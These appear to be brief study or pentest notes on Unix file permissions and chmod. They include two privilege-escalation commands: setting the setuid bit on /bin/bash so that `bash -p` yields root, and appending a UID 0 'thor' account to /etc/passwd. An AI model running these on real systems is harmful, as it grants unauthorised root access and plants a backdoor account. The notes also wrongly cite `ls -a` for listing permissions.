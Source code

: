Each file in the filesystem in Unix has some privileges, marked as a triplet of `rwx` with a leading `-` or `d` (directory).

Example (from `ls -a`):
`drwxrwxr-x`

The first triplet represents the file owner, the second the file's group and the last everyone else.

The triplet can be used in binary form to give a number. `rw-` would be `110`, or 6
#### Change them
Permissions can be changed using the `chmod` command (change mode)

Example:
`chmod +x myfile.txt` to make `myfile.txt` executable
`chmod 777 myfile.txt` to give all permissions to the file
`chmod 741` to give: all to owner, read only to group and execute only to all other users 
`chmod +s /bin/bash` to give **owner's** permission instead of user's (in this case, any user executing `bash -p` would have root privileges as `/bin/bash` has been (usually) created by root)


## Users

Can edit /etc/passwd with plaintext hashed password to add another user with root privileges:
	echo "thor:<mypassd>:0:0:thor:/root:/bin/bash" >> /etc/passwd

with <mypassd> generated from `openssl passwd <non-hashed-passwd>`


All users within /etc/passwd are stored as:
`name:passwd:UID:GID:info:homedir:shell`